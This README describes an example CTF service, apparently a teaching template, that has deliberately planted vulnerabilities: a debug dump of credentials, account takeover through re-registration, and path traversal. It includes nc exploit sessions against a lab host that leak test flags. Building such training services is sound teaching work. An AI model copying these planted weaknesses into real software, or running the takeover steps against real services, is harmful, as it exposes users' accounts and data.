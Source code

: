 n0t3b00k example service
====================
Example service to provide students a project strucutre. n0t3b00k is a simple service that allows users to register, login and save/retrieve notes. 


# Vulnerabilities

Please keep track of your intended vulnerabilities here:

## Debug enabled

- Category: Misconfiguration
- Difficulty: Easy

When `self.debug` is set to `True`, the `dump` command will list all users and their notes. 

## Account Takeover

- Category: Authentication
- Difficulty: Medium

When registering a new user, the service does not check if the user already exists and simply overwrites the password (`self.users[reg_user] = reg_pw`). The list of existing users can be obtained with the `user` command.

## Arbitrary Read or Write 

- Category: Path traversal
- Difficulty: hard?

The `FilesystemDict` uses user-supplied input when constructing the file paths. This could be used to write JSON-encoded data to any files. The impact has to be further analyzed, but this might lead to another account takeover (overwrite the password for other users) or flag access (reading the `notes` files).

*Note:* Without a proper impact analysis, we would classify this issue as a `unintended` vulnerability. Please try to keep such issues to a minimum, but document them nonetheless.

# Exploits

For each vulnerability, you should have a working example exploit ready! 

## Debug enabled:

Connect to the service and run `dump`:

```
gehaxelt@LagTop ~> nc 192.168.2.112 2323
Welcome to the 1337 n0t3b00k!
> dump
Users:
test:test
foo:bar
     Note 0:acbd18db4cc2f85cedef654fccc4a4d8:foo
     Note 1:37b51d194a7513e45b56f6524f2d51f2:bar
     Note 2:acbd18db4cc2f85cedef654fccc4a4d8:foo
4FOBMO10HWLC:EDPWN79U2KNL
I4K3P0SK3PST:CK5FALD39Y0S
B70YKMW72KUR:79Y5IM7FD7O8
GB7QC0DKYXPS:89TY8HI6OCBA
NXPTITQUSN2M:WYIWSGRZNKTX
6699DPYPAQDL:7IFEPP3P3LBI
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
MPG81XWFHNE8:H8KP8VECBQOR
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
QN973IXF53HT:9BUVY6JNMGIW
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
UI2WTY7E7KC5:87SB830QHVX3
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
XXPLIXZ9ZN1Q:F88L3J4GA2LE
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
N43LU1348D19:YWT9TFCSVA2T
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
3DP6COPE6GMX:OI9437MJORZR
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
I8ZUNTWZ0Y0Q:B3AI1LN9SAAE
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
JUACZ5J3D475:5RNZ1ETOFBS6
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
KGFZNGHROLUS:05826L6X39XM
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
FV9VM13K8MGF:POUIW5CM6PY2
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
XAHOKR4QD63O:VENSD82XO1XM
     Note 0:199480a3640248d5ea679b596d91c350:SKLNAYZAG7QX65RTMW3DCZAKPS9OC0TFH6GH
```

The flags are in the output.

## Account Takeover

Connect to the service and use the `user` command to obtain a list of users:

```
gehaxelt@LagTop ~ [130]> nc 192.168.2.112 2323
Welcome to the 1337 n0t3b00k!
> user
User 0: test
User 1: foo
User 2: 4FOBMO10HWLC
User 3: I4K3P0SK3PST
User 4: B70YKMW72KUR
User 5: GB7QC0DKYXPS
User 6: NXPTITQUSN2M
User 7: 6699DPYPAQDL
User 8: MPG81XWFHNE8
User 9: QN973IXF53HT
User 10: UI2WTY7E7KC5
User 11: XXPLIXZ9ZN1Q
User 12: N43LU1348D19
User 13: 3DP6COPE6GMX
User 14: I8ZUNTWZ0Y0Q
User 15: JUACZ5J3D475
User 16: KGFZNGHROLUS
User 17: FV9VM13K8MGF
User 18: XAHOKR4QD63O
```

Use the username(s) and the `reg` command to set a different password. Next, `log`in as the user, `list` their notes and obtain the flag:

```
> reg XAHOKR4QD63O foo
User successfully registered
> log XAHOKR4QD63O foo
Successfully logged in!
> list 
Note 0: 199480a3640248d5ea679b596d91c350
> get 199480a3640248d5ea679b596d91c350
SKLNAYZAG7QX65RTMW3DCZAKPS9OC0TFH6GH
```

## Arbitrary Read or Write

TODO: None developed yet.

-----------------------------------------------

# Usage

Use this repository as the base structure for your service. Please keep the directory structure and the following required files:

- `README.md` with a description of your vulnerabilities and exploits.
- `LICENSE` with the MIT
- `.gitignore` files exclude directories or files from being committed.
- `.dockerignore` files exclude directories or files from being tracked by the docker daemon.
- `.env` files used by docker-compose to assign a unique project-name.
- `docker-compose.yml` files to manage your service or checker containers
- `Dockerfile` with commands to build your service

# Required changes

You'll probably want to through all of these files and replace `n0t3b00k` with your service's name accordingly. 